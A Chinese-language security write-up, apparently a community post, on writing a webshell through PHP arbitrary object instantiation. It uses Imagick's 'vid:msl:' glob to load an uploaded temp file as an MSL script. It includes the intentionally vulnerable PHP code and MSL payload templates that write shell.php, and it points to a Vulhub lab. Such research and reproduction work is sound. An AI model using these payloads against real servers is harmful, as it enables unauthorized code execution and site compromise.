


昨天星球有人问到使用用imagick vid写文件，我之前也测试过这个trick，分享一下我的经验。另外，我在Vulhub做了个简单的环境，大家可以用来复现这个帖子的内容：vulhub/imagemagick/vid-trick at master · vulhub/vu...  这个Trick是一个很常见的场景，就是用户可控PHP类名和类构造函数的第一个参数，代码如下：  <?php $class = $_REQUEST['class']; $arg = $_REQUEST['arg'];  new $class($arg); ?>  @ptswarm 的老哥在这篇文章中提出了一个trick，利用Imagick和MSL来写入Webshell：Exploiting Arbitrary Object Instantiations in PHP ...  这个Trick中涉及到几个知识点：  - MSL是什么？ - vid:的作用是什么？ - 如何进行getshell？  第一个问题，MSL是什么？  MSL全称是Magick Scripting Language，是ImageMagick自创的一门基于XML的“语言”，旨在用户可以通过XML的方式编写代码，处理图片。其实就是可以利用一系列约定俗成的标签和属性来对图片进行处理。  MSL中有两个标签<read>和<write>可以用于读取和写入文件，所以这个Trick的核心就是利用这两个标签写入任意文件Webshell。  第二个问题，vid:的作用是什么？  vid是ImageMagick中支持的一个协议，这个协议可以用于包裹其他协议或者文件名。vid协议的特点是，其增加了对glob通配符的支持，这样我们就可以通过*的方式来包含一些我们不知道完整文件名的文件。  PHP在处理上传数据包时，会将POST文件内容写入到临时目录下的一个临时文件中，文件名由“php”开头，后跟随机字符串。通常情况下我们猜不到随机字符串也就无法拿到完整文件名，但因为vid协议对于通配符的支持，我们可以使用“new Imagick('vid:msl:/tmp/php*');”的方式让Imagick加载并解析PHP上传的临时文件。  第三个问题，如何进行getshell？  通过前面对vid的利用，我们可以让Imagick加载PHP上传的临时文件，而文件内容是完全可控的，那么我们就可以在其中构造恶意msl脚本，执行我们需要的逻辑。  前面我也说了，其实恶意msl脚本的核心就是<read>和<write>这两个标签。通过<read>可以读取一个图片，图片可以来自于远程http，也可以来自于本地；通过<write>可以将前面获取的图片写入到另一个位置，而且文件名可控。  那么，我们就可以通过如下一个msl文件来从Web服务器下载图片并写入到shell.php这个文件中：  <?xml version="1.0" encoding="UTF-8"?> <image>   <read filename="hxxps://placehold.co/100.png"/>   <write filename="shell.php" /> </image>  但是ImageMagick在处理图片后，会导致丢失原始图片中的信息，所以使用图片马是无法成功写入Webshell的。  要解决这个问题也很简单，既然MSL是一门图片处理语言，我们就可以找找是否有方法在图片中增加一些“注释”。msl有一个<comment>标签可以给生成的图片加注释，所以我们将Webshell编码后放在这个标签里即可：  <?xml version="1.0" encoding="UTF-8"?> <image>   <read filename="hxxps://placehold.co/100.png"/>   <comment>HTML实体编码后的Webshell</comment>   <write filename="shell.php" /> </image>  发送数据包如图1，成功写入shell.php文件在当前目录，访问可见phpinfo()已解析，见图2。  如果服务器不能联网，我们可以找一些本地图片文件做处理，比如安装ImageMagick后自带的图片“/usr/share/doc/ImageMagick-7/www/wand.png”：  <?xml version="1.0" encoding="UTF-8"?> <image> <read filename="/usr/share/doc/ImageMagick-7/www/wand.png"/> <comment>HTML实体编码后的Webshell</comment> <write filename="shell.php" /> </image>  需要自己发挥想象了。如果实在找不到本地图片，其实我们也可以再次叠加vid协议对于通配符的支持，加载临时文件。  但是原始文章中说到的caption:协议我并没有复现成功，因为ImageMagick在读取文件的时候会对文件格式有一些要求，如果不是图片处理的时候就会出现“no images defined write”的错误，大家可以深入研究研究看看是否有什么我没注意到的东西。

